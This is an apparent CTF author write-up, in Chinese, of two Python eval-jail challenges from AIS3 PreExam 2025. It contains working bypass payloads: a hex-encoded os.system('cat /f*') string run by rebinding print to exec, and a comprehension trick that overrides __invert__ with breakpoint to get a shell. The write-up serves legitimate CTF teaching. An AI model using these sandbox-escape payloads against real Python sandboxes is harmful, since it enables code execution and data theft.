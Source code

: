 # AIS3 PreExam 2025

這次在 AIS3 PreExam 出了兩題 Pyjail，原本想要出 Web 的，但被太晚填表單了ＸＤ

## nocall 

(5 solve/389)

題目如下：
```python
#!/usr/local/bin/python3
import unicodedata

print(open(__file__).read())

expr = unicodedata.normalize("NFKC", input("> "))

if "._" in expr:
    raise NameError("no __ %r" % expr)

if "breakpoint" in expr:
    raise NameError("no breakpoint %r" % expr)

if any([x in "([ ])" for x in expr]):
    raise NameError("no ([ ]) %r" % expr)

# baby version: response for free OUO
result = eval(expr)
print(result)
```

題目會先進行 normalize，所以 unicode 繞 string check 用不了，然後有幾個 string check:
1. 字串內不能出現 `._`
2. 字串內不能出現 `breakpoint` 
3. 字串內不能出現 `(` `[` `]` `)` ` `

然後字串會拿去 eval 之後把結果 print 出來，並且透過觀看 `Dockerfile` 可以知道目標是 RCE。


可以發現 eval 是沒有特別指定 local 跟 global 的，代表他可以碰到外面的 context，理想下流程：
所以如果我們能把 `__builtins__` 中的 `print` 改為 `exec` 或者 `system`。然後直觀可以想到 hex string 的方式繞掉字串檢查，只要控制 eval 的回傳值為惡意字串，就可以讓後續被蓋掉的 print 跑起來惡意字串。

大概是要做到如下的事情：
```python
print=exec
# __import__("os").system("cat /f*")
return "\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x22\x6f\x73\x22\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x63\x61\x74\x20\x2f\x66\x2a\x22\x29"
```

但是我們是 eval，只能給 expression，所以可以用海象表達式：

```
{print:=exec}
```

至於要讓回傳值是可控字串可以：
（後面的 `"""` 是為了讓 `{print:=exec}.__doc__` 產生的垃圾不會影響 exec）

```
"\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x22\x6f\x73\x22\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x22\x63\x61\x74\x20\x2f\x66\x2a\x22\x29"+'\n"""'+{print:=exec}.__doc__+'"""'
```

另外 `._` 會被字串檢查到，但我們能用 `.\t_` 繞。

## nocall-revenge 

(1 solve/389)

```python
#!/usr/local/bin/python3
import unicodedata

print(open(__file__).read())

expr = unicodedata.normalize("NFKC", input("> "))

if "._" in expr:
    raise NameError("no __ %r" % expr)

if any([x in "(['\"+-*/ ])" for x in expr]):
    raise NameError("no (['\"+-*/ ]) %r" % expr)

# no response for you :>
eval(expr)
```

比起 nocall，多 ban 了一些字元，eval 後沒有東西，但沒 ban breakpoint，應該目標蠻明顯的吧（Ｘ

想辦法呼叫 breakpoint 就可以了，但這題沒有 `(` `)` 應該不能呼叫了？

應該有人有聽過可以透過 decorator 來不透過括號來呼叫，但這題是用 eval，造不出 decorator。

核心想法就是把 python 裡面的預設行為蓋掉，然後再觸發就可以成功呼叫。

例如：
```python
class foo:
    pass
foo.__neg__ = breakpoint
```

然後我們再 `-foo()` 就會成功呼叫 breakpoint。所以我們拿裡面一個內建的 class 然後把它預設運算子行為蓋成 breakpoint 就可以了，但我這邊把 `+-*/` 都禁掉了，不過 Python [可不只這些運算](https://docs.python.org/3/reference/datamodel.html#emulating-numeric-types)，隨便拿一個蓋就可以了。

但很可惜，海象運算子的 lfs 不支援複雜表達，也就是不能：
```python
{foo.__invert__:=breakpoint}
```

這也是這一題的考點之一：“如何在 expression 中蓋掉一層以上的成員”

可以透過 for loop 來達到，像是:
```python
{{0for\thelp.\t__class__.\t__invert__\tin{breakpoint}}
```

這樣就可以把 `help.__class__.__invert__` 蓋成 breakpoint，最後只要 `~help` 即可成功開 breakpoint shell 來 RCE。
